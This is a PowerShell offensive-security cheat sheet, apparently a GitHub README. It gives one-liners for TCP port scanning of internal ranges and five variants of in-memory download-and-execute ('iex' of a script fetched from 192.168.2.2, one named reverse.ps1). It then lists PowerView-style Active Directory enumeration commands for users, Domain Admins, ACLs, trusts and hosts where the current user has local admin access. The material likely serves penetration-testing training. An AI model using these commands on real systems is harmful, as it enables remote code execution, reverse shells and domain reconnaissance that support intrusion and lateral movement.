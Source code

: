 ``` Ping with IP Powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null
```

```
1..20 | % { $a = $_; write-host "------"; write-host "10.0.0.$a"; 22,53,80,445 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.1.1.$a",$_)) "Port $_ is open!"} 2>$null}
```

```PowerShell in-memory Download and Execute

iex (iwr 'http://192.168.2.2/file.ps1')

--------------------------

$down = [System.NET.WebRequest]::Create("http://192.168.2.2/file.ps1")
$read = $down.GetResponse()
IEX ([System.IO.StreamReader]($read.GetResponseStream())).ReadToEnd()

--------------------------

$file=New-Object -ComObject
Msxml2.XMLHTTP;$file.open('GET','http://192.168.2.2/file.ps1',$false);$file.sen
d();iex $file.responseText

--------------------------

iex (New-Object Net.WebClient).DownloadString('https://192.168.2.2/reverse.ps1')

--------------------------

$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.2.2/reverse.ps1 ‘);
sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

--------------------------

```


# Domain Enumerate
``` Get current domain

Get-NetDomain
Get-NetDomain –Domain cyberwarfare.corp

```

``` Retrieve Current SID and Domain Controller 

Get-NetDomainController –Domain cyberwarfare.corp
Get-DomainSID

```

```Retrieve a list of users in the current domain

Get-NetUser
Get-NetUser –UserName emp1

```

``` Retrieve a list of computers in the current domain

Get-NetComputer
Get-NetComputer – FullData
Get-NetComputer –OperatingSystem “Windows Server 2016 Standard”

```

``` List all domain groups in the current domain

Get-NetGroup
Get-NetGroup –FullData
Get-NetGroup –Domain cyberwarfare.corp

```

``` Enumerate privilege domain group members and local administrators
group members 

Get-NetGroupMember –GroupName “Domain Admins” -verbose
Get-NetLocalGroup –ComputerName DC-01 -ListGroups

```

```ACL Enumeration, get the ACLs associated with an entity
 
Get-ObjectAcl -SamAccountName <Domain_User> –ResolveGUIDs

```
``` Unique and interesting ACL Scanning

Invoke-ACLScanner –ResolveGUIDs

```

```Enumerate Domain Trusts

Get-NetDomainTrust
Get-NetDomainTrust –Domain cyberwarfare.corp

```

```Enumerate all domain in a Forest

Get-NetForestDomain –Verbose
Get-NetForest -Verbose

```
```Find computer sessions where current user has local admin access

Find-LocalAdminAccess -Verbose

```

